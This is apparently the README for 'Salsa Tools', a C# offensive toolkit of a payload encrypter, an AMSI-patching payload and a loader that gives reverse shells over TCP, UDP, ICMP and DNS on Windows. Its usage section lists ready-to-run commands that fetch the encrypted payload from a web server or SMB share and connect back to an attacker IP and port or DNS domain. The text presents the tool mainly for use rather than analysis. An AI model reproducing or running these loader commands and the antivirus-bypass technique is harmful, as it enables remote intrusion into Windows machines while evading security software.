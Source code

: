 ![License](https://img.shields.io/badge/license-GNU-green.svg?style=flat-square)

# **Salsa Tools - ShellReverse**
# **TCP/UDP/ICMP/ DNS and AV bypass, AMSI patched**

```
   _____       __              ______            __    
  / ___/____ _/ /________ _   /_  __/___  ____  / /____
  \__ \/ __ `/ / ___/ __ `/    / / / __ \/ __ \/ / ___/
 ___/ / /_/ / (__  ) /_/ /    / / / /_/ / /_/ / (__  ) 
/____/\__,_/_/____/\__,_/    /_/  \____/\____/_/____/  
                                                       

 [+] Starting the fucking Salsa...
 [+] EncrypterAssembly (Software to encrypt our payload)
 [+] EvilSalsa (This is our payload)
 [+] SalseoLoader (Software that we will use to load our encrypted payload)
```
Salsa Toos is a set of tools written in C #  
that allows you to have a shellreverse in any windows environment without the need of powershell for it's execution.  


```
  ______                             _            
 |  ____|                           | |           
 | |__   _ __   ___ _ __ _   _ _ __ | |_ ___ _ __ 
 |  __| | '_ \ / __| '__| | | | '_ \| __/ _ \ '__|
 | |____| | | | (__| |  | |_| | |_) | ||  __/ |   
 |______|_| |_|\___|_|   \__, | .__/ \__\___|_|   
     /\                   __/ | || |   | |        
    /  \   ___ ___  ___ _|___/|_|| |__ | |_   _   
   / /\ \ / __/ __|/ _ \ '_ ` _ \| '_ \| | | | |  
  / ____ \\__ \__ \  __/ | | | | | |_) | | |_| |  
 /_/    \_\___/___/\___|_| |_| |_|_.__/|_|\__, |  
                                           __/ |  
                                          |___/   
			  
 [+] Software that encrypts the payload using RC4
 [+] We have the version in python and the version in .exe
```
# Usage EncrypterAssembly in python

```
python encrypterassembly.py <FILE> <PASSWORD> <OUTPUT>
```

# Usage EncrypterAssembly in .EXE

```
Encrypterassembly.exe <FILE> <PASSWORD> <OUTPUT>
```
![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/encrypterpython.png)

```
   ___ __ __  ____  _            
  /  _]  |  ||    || |           
 /  [_|  |  | |  | | |           
|    _]  |  | |  | | |___        
|   [_|  :  | |  | |     |       
|     |\   /  |  | |     |       
|_____| \_/  |____||_____|       
                                 
  _____  ____  _     _____  ____ 
 / ___/ /    || |   / ___/ /    |
(   \_ |  o  || |  (   \_ |  o  |
 \__  ||     || |___\__  ||     |
 /  \ ||  _  ||     /  \ ||  _  |
 \    ||  |  ||     \    ||  |  |
  \___||__|__||_____|\___||__|__|
  
[+] That is our Payload
                                 
```
# Description

EvilSalsa is our payload. Basically what we do is load the System.Management.Automation .dll. Create a runspace and within that runspaces we have four types of shells (TCP / UDP / ICMP / DNS). When the EvilSalsa is loaded into the system, the first thing it does is to check if "c:\windows\system32\amsi.dll" is found in the system. If it is in the system, it is patched: D. Patching is a patch variant of CyberArk and Rastamouse.

AMSI Bypass Redux (CyberArk) https://www.cyberark.com/threat-research-blog/amsi-bypass-redux/  
AMSI Bypass (Rastamouse) https://rastamouse.me/2018/11/amsiscanbuffer-bypass---part-3/  


```
  _____  ____  _     _____   ___   ___    
 / ___/ /    || |   / ___/  /  _] /   \   
(   \_ |  o  || |  (   \_  /  [_ |     |  
 \__  ||     || |___\__  ||    _]|  O  |  
 /  \ ||  _  ||     /  \ ||   [_ |     |  
 \    ||  |  ||     \    ||     ||     |  
  \___||__|__||_____|\___||_____| \___/   
                                          
 _       ___    ____  ___      ___  ____  
| |     /   \  /    ||   \    /  _]|    \ 
| |    |     ||  o  ||    \  /  [_ |  D  )
| |___ |  O  ||     ||  D  ||    _]|    / 
|     ||     ||  _  ||     ||   [_ |    \ 
|     ||     ||  |  ||     ||     ||  .  \
|_____| \___/ |__|__||_____||_____||__|\_|

[+] This software is the one that we will use to load the encrypted payload
```

# Description

This software is the one that we will use to load the encrypted payload. SalseoLoader can be compiled as a library or as an executable. In the case that it is compiled as executable, we must only pass the argument that we want to execute. On the contrary, if we compile it as a library. We will have to make an export of the descriptor "main". And the way to create the argument, is done through the reading of environmental variables.

# Usage SalseoLoader
```
SalseoLoader.exe <PASSWORD> <PAYLOAD PATH> <SHELL TYPE> <LHOST> <LPORT>
```

# Usage SalseoLoader in .EXE reading from web server.
# Example ReverseUDP
```
SalseoLoader.exe hc0n-2019 http://192.168.1.235/elmal.txt reverseudp 192.168.1.235 1337
```
![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/example1.png)

# Usage SalseoLoader in .EXE reading from local file.
# Example ReverseTCP
```
SalseoLoader.exe hc0n-2019 C:\elmal.txt reversetcp 192.168.1.235 1337
```
![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/example2.png)


# Usage SalseoLoader in .EXE reading from SMB file.
# Example ReverseICMP
```
SalseoLoader.exe hc0n-2019 \\192.168.1.235\evil\elmal.txt reverseicmp 192.168.1.235 
```
![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/example3.png)

# Usage SalseoLoader
# Example ReverseDNS
```
SalseoLoader.exe hc0n-2019 C:\elmal.txt reversedns 192.168.1.235 licordebellota.org
```

![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/example4.png)

